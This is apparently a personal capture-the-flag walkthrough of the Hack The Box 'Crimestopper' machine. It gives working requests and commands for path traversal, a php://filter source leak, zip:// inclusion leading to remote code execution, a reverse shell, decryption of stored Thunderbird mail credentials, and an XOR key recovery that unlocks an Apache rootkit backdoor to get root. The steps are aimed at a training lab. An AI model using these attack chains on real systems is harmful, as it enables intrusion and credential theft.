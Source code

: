 ## Notes for solving the Crimestopper machine in Hack The Box

This is not the "official" walkthrough, just my personal notes about solving the machine.

# Let's nmap


```
# Nmap 7.60 scan initiated Thu Apr 12 02:37:33 2018 as: nmap -sC -sV -oA initial_nmap 10.10.10.80
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.10.10.80
Host is up (0.00036s latency).
Not shown: 624 closed ports, 375 filtered ports
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
```

Okay, let's see the app then.

# Abusing the PHP app


## Cookie abuse

modify cookie admin=1 -> there is an operation list available.

## whiterose.txt

name in list is not the same as secretname for this file. For user files it's the same. hmm
```<li><a href="?op=view&secretname=whiterose.txt">Whiterose.txt</a></li>```


" Your Tip:
Hello, <br /> You guys should really learn to code, one of the GET Parameters is still vulnerable. Most will think it just leads to a Source Code disclosure but there is a chain that provides RCE. <br /> Contact WhiteRose@DarkArmy.htb for more info."

Ok.

--

# Abusing op parameter


```
GET /?op=%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%25%5c%2e%2e%  25%5c%2e%2e%25%5c%2e%2e%255cboot%2eini&secretname=whiterose.txt HTTP/1.1
Host: 10.10.10.80
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.80/?op=list
Cookie: admin=1:cmd=id; PHPSESSID=0eo09a350781pkof48qak95vv5
Connection: close
Upgrade-Insecure-Requests: 1
```

-- > http 400 bad request
where did the <script> come from? not from the request. Hmm it's always there ..

```
Content-Disposition: form-data; name="tip"
 l1ä2ö€LÖÄASL_;:X;ZC:;MQ^PWRQ*QWÄRÖÄ>Ä<,m<.m<,.m.tm23&"#%:"#_%:_"#::MS_MWET_ÖWE:WET:

..> 
Your Tip:<br /> l1&auml;2&ouml;&euro;L&Ouml;&Auml;ASL_;:X;ZC:;MQ^PWRQ*QW&Auml;R&Ouml;&Auml;&gt;&Auml;&lt;,m&lt;.m&lt;,.m.tm23&amp;&quot;#%:&quot;#_%:_&quot;#::MS_MWET_&Ouml;WE:WET:</script>
```

So after all kinds of tests, apparently no injection problems.

## What about LFI? 

```
GET /?op=view&secretname=0 -> 302
GET /?op=view&secretname=00 -> 200
```

op parameter references a file name

so we have at least these source files:
* list.php
* upload.php
* index.php
* home.php
* view.php


getting the source code: PHP://filter LFI
```http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=index```

Download the rest.

## After downloading the source files

What can we control in the execution of the application?


### !!! USERAGENT is user controlled

```
// If the hacker cannot control the filename, it's totally safe to let them write files... Or is it?
function genFilename() {
        return sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT'] . time() . mt_rand());
```

hmm

### !!! $token is user controlled in upload.php
```
        <input type="text" id="token" name="token" style="display: none" value="<?php echo $token; ?>" style="width:355px;" />
```        
hmm

```
      foreach (scandir("uploads/" . $_SERVER['REMOTE_ADDR']) as $file) {
        if (!preg_match('(\.)', $file)) {
          echo "<li><a href=\"?op=view&secretname=" . $file . "\">" . $file . "</a></li>";
```
      
### !!! upload location is.. 

http://10.10.10.80/uploads/IP-ADDRESS/

```
                $tip = $_POST['tip'];
                $secretname = genFilename();
                file_put_contents("uploads/". $client_ip . '/' . $secretname,  $tip);
```

index.php

### !!! $op is user controlled

```
page_top($op);

if(!(include $op . '.php'))
    fatal('no such page');
?>
```

So, the comment definitely implies something. And luckily there is a phar and zip filter RCE trick! Let's go with the zip one.

# PHP ZIP filter trick for RCE

A phar would also (probably, depends on the settings, work but this is easier). Let's create a zip file containing some executable PHP stuff. Then use LFI with the zip filter to excute it.

How to keep the payload valid?

```
curl -vvv -b cookies  -X POST --form submit=je --form tip=@cooler.zip --form name=kik --form token=41fd619bf64826110a46c8e77780f944f66716f6ef71c00e87d4718380ecaecc  "http://10.10.10.80/?op=upload"      
-x http://localhost:8510
     
http://10.10.10.80/?op=zip://uploads/10.10.15.237/0a75ffc8c72ef5231be834641e3350c8b6a252c0#infopay
http://10.10.10.80/?op=zip://uploads/10.10.15.237/0a75ffc8c72ef5231be834641e3350c8b6a252c0#infopay
10.10.15.159/9ae1a2c8a3a884b4f363219d6004f2844d769eea
```

hmm zip is broken in transit :(

```
http://10.10.10.80/?op=zip://uploads/10.10.15.237/619f839a5d6637c39f27355d1a0c99cb3ffeaeaf%23infopay
http://10.10.10.80/?op=zip://uploads/10.10.15.237/490e25c8bbc83ba9fc6cbb681ef235ce306405ec%23phpbash
http://10.10.10.80/?op=zip://uploads/10.10.15.237/bd6f9b93d9c5bc18c0db86bae86d28836518afd6%23shell
```

But, let's route through proxy:
```
curl -vvv -b cookies -x http://localhost:8510  -X POST --form submit=je --form tip=@cooler.zip --form name=kik --form token=41fd619bf64826110a46c8e77780f944f66716f6ef71c00e87d4718380ecaecc  "http://10.10.10.80/?op=upload"
```

In the proxy, remove filename etc. -> works :) Then request the uploaded "tip" and finally we found RCE and got a reverse shell!

# Reverse shell reveals

Fixing the terminal
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
cat super-secret-credits-random-stuff
This was inspired/modified from the 2016 Plaid CTF (Web Pixel Shop), I hope you enjoyed it!  Best of luck getting root.

- IppSec
```

there is 
```/home/dom/.thunderbird```

and at port 5355 something is listening, not visible to outside world

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::5355                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -         
```

From /home/dom/.thunderbird we can deduce that it's probably imap server that is running on the localhost 5535.
Okay, so let's try the Thunderbird then. Some emails.

# Looking at the Thunderbird mails

less logins.json 

```
{"nextId":3,"logins":[{"id":1,"hostname":"imap://crimestoppers.htb","httpRealm":"imap://crimestoppers.htb","formSubmitURL":null,"usernameField":"","passwordField":"","encryptedUsername":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECD387WcBe3c6BBi1iFK/aDf9PjB/6ThOEBJQqjtekeU32Mo=","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECHL1/2x89aL9BBA599gqEL19OHxdrsYIeFMr","guid":"{ac644add-759f-42ff-9337-0a60df088966}","encType":1,"timeCreated":1513452233268,"timeLastUsed":1513452233268,"timePasswordChanged":1513452233268,"timesUsed":1},{"id":2,"hostname":"smtp://crimestoppers.htb","httpRealm":"smtp://crimestoppers.htb","formSubmitURL":null,"usernameField":"","passwordField":"","encryptedUsername":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECJt3sgMddDmBBBiBLG1+xV56msveHf6TeQJyEbYeKiHnUl0=","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECCtQjFNTfgl4BBCVOJjKsfEms5eVn1ohSZHC","guid":"{541c134f-1fb3-4a61-b920-b0bbdeff31cb}","encType":1,"timeCreated":1513452233274,"timeLastUsed":1513452233274,"timePasswordChanged":1513452233274,"timesUsed":1}],"disabledHosts":[],"version":2}
```

Okay,  let's crach some hashes or something (I don't remember anymore what I did in this point)

```
Website:   imap://crimestoppers.htb
Username: 'dom@crimestoppers.htb'
Password: 'Gummer59'

Website:   smtp://crimestoppers.htb
Username: 'dom@crimestoppers.htb'
Password: 'Gummer59'
```



Admin is always a nice group to read logs.
 
```
groups
dom adm cdrom sudo dip plugdev lpadmin sambashare


Dec 22 09:11:03 ubuntu Rootkit Hunter: Rootkit hunter check started (version 1.4.2)
Dec 22 09:12:23 ubuntu Rootkit Hunter: Scanning took 1 minute and 19 seconds
Dec 22 09:12:23 ubuntu Rootkit Hunter: Please inspect this machine, because it may be infected.
```

Why would you  run rkhunter in HTB machine? Not usual.

And what's in the email.

```
cat ImapMail/crimestoppers.htb/INBOX
From - Sat Dec 16 11:47:00 2017
X-Mozilla-Status: 0001
X-Mozilla-Status2: 00000000
Return-Path: WhiteRose@DarkArmy.htb
Received: from [172.16.10.153] (ubuntu [172.16.10.153])
	by DESKTOP-2EA0N1O with ESMTPA
	; Sat, 16 Dec 2017 14:46:57 -0500
To: dom@CrimeStoppers.htb
From: WhiteRose <WhiteRose@DarkArmy.htb>
Subject: RCE Vulnerability
Message-ID: <9bf4236f-9487-a71a-bca7-90fa7b9e869f@DarkArmy.htb>
Date: Sat, 16 Dec 2017 11:46:54 -0800
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
 Thunderbird/52.5.0
MIME-Version: 1.0
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 8bit
Content-Language: en-US

Hello,

I left note on "Leave a tip" page but no response.  Major vulnerability 
exists in your site!  This gives code execution. Continue to investigate 
us, we will sell exploit!  Perhaps buyer will not be so kind.

For more details place 1 million ecoins in your wallet.  Payment 
instructions will be sent once we see you move money.
```

How scary!

# Reverse engineering the rootkit

This was perhaps the coolest part of the machine. I enjoyed every bit of this challenge, but this was cool.

```
 ls -altr /etc/apache2/mods_available
 -rw-r--r-- 1 root root    64 Dec 16 12:37 rootme.load
``` 

hmm! enabled and loaded!


```
nc localhost 80
get root
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.25 (Ubuntu) Server at 127.0.1.1 Port 80</address>
</body></html>
```

## The original exploit doesn't work.

Original exploit's source code can be found in the internet. There we see how it's supposed to work.

```
#define HIDE_SHELL      "/usr/sbin/apache2 -k start"
#define ROOT_KEY        "root"
#define ROOT_KEY2       "root+"

GET root HTTP/1.0

GET /root HTTP/1.0
Host: localhost
<empty line>
```

Well, obviously it would've been too easy.

### Using radare2 we find

Here's the "authorization" checking. 

```
.rodata:0000000000001BF2 unk_1BF2        db  0Eh                 ; DATA XREF: darkarmy+E↑o
.rodata:0000000000001BF3                 db  14h
.rodata:0000000000001BF4                 db  0Dh
.rodata:0000000000001BF5                 db  38h ; 8
.rodata:0000000000001BF6                 db  3Bh ; ;
.rodata:0000000000001BF7                 db  0Bh
.rodata:0000000000001BF8                 db  0Ch
.rodata:0000000000001BF9                 db  27h ; '
.rodata:0000000000001BFA                 db  1Bh
.rodata:0000000000001BFB                 db    1
.rodata:0000000000001BFC                 db    0
```

Okay, this is 'HackTheBox' and XOR operation. 

We could do that in radare, but perhaps easier to just write a small Python script.

Like this, *decrypt.py*:

```
s1 = "HackTheBox"

#.rodata:0000000000001BF2 unk_1BF2        db  0Eh                 ; DATA XREF: darkarmy+E
#.rodata:0000000000001BF3                 db  14h
#.rodata:0000000000001BF4                 db  0Dh
#.rodata:0000000000001BF5                 db  38h ; 8
#.rodata:0000000000001BF6                 db  3Bh ; ;
#.rodata:0000000000001BF7                 db  0Bh
#.rodata:0000000000001BF8                 db  0Ch
#.rodata:0000000000001BF9                 db  27h ; '
#.rodata:0000000000001BFA                 db  1Bh
#.rodata:0000000000001BFB                 db    1
#.rodata:0000000000001BFC                 db    0


s2 = '\x0e\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01\x00'

pas=''
for i in range(0,10):
  pas = pas +  chr(ord(s1[i]) ^ ord(s2[i]))
print(pas)
```

And run it:

```
python decrypt.py 
FunSociety
```

So this looks good.

# Finally getting root!

So now, let's go for the rootkit.

```
dom@ubuntu:~$ nc localhost 80
nc localhost 80
GET FunSociety HTTP/1.0
GET FunSociety HTTP/1.0


rootme-0.5 DarkArmy Edition Ready

whoami
root
cat /root/root.txt
91bb7714c560e0e885e049c2f579644a


cat /root/Congratulations.txt
Hope you enjoyed the machine! The root password is crackable, but I would be surprised if anyone managed to crack it without watching the show.  But who knows it is DESCrypted after all so BruteForce is possible.

Oh and kudo's if you just SSH'd in via IPv6 once you got dom's pw :)

-Ippsec

```


DONE!




